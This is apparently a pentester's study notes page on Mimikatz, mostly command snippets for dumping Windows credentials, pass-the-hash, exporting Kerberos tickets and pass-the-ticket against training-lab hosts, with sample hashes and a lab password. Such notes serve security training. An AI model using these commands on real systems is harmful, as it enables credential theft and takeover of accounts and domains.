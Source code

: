 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
## Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

For Linux systems see a Python implementation: [pypykatz](https://github.com/skelsec/pypykatz)

Windows 10 Enterprise is the only version that comes with "Credential Guard" (Prevents Mimikatz from Stealing Passwords) Enabled by default.
## Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

## Usage 

```cmd-session
mimikatz.exe
```
### Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

### Dump Passwords

```cmd
privilege::debug
sekurlsa::logonpasswords
```
### Pass the Hash

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

```cmd-session
 mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

### Export Tickets

See [[Pass the Ticket (PtT) Windows]]

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::tickets /export
```

> [!NOTE]
> At the time of writing, using Mimikatz version 2.2.0 20220919, if we run `sekurlsa::ekeys` it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets `sekurlsa::tickets /export` do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use [[Rubeus]] to export tickets in base64 format.


##### Extract Kerberos Keys

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::ekeys
```

##### Pass the Key or OverPass the Hash

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

### Pass the Ticket

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```


### Pass The Ticket with PowerShell Remoting

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```
exit
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```